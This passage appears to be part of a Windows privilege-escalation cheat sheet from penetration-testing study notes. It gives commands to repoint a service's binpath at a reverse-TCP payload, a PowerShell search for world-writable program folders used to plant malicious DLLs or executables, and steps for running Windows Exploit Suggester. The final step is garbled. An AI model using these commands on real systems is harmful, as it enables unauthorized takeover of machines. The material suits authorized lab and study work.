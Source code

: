 2. Modify the service to point to a malicious binary

   ```bash
   ##### Command Prompt
   # Note, the space after binpath= is necessary.
   sc config <service name> binpath= "C:\coyote\rev_tcp_8001.exe"
   # Verify config change
   sc qc <service name>
   ```

#### Writeable Directories

1. Find writable files and folders

   ```bash
   powershell -c 'Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}'
   ```
   
2. Look for directories where executables are run by elevated users and replace commands or DLL's with malicious files.

### Exploit Suggestions

#### Windows Exploit Suggester - Next Gen

1. Update wes

   ```bash
   python wes.py --update-wes
   ```

2. Dump Windows systeminfo to a file

   ```bash
   # Local
   systeminfo > systeminfo.txt
   # Remote
   systeminfo.exe /S 10.10.10.10
   ```

3. Scan the file (must run from wes folder)

   ```bash
   cd ~/opt/enumeration/windows/wesng/
   python wes.py -e ~/htblab/oscp_like/8/sysinfo.txt
   
   # Options
   -e	# Show only exploits
   -i IMPACT # Specify the impact you want ("Elevation of Privilege", "Remote Code Execution", and more)
   -d # Filter exploits release before most recent patch (may filter out valid exploits)
   ```

4. -e
   --hide "text" Ed

From https://github.com/bitsadmin/wesng
